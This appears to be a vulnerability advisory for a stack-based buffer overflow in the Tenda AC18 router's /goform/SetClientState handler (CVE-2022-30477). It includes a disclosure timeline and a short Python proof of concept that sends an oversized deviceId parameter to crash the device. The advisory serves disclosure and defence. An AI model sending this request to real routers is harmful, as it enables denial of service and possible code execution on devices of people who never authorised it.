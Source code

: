 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/SetClientState` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `formSetClientState`.

In function `formSetClientState` it reads user provided parameter `deviceId` into `v9`, and this variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/SetClientState`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/SetClientState?"
url += "limitEn=1&deviceId=" + "s" * 0x500

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30477)
* 2022-05-30: CNVD ID assigned (CNVD-2022-41849)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
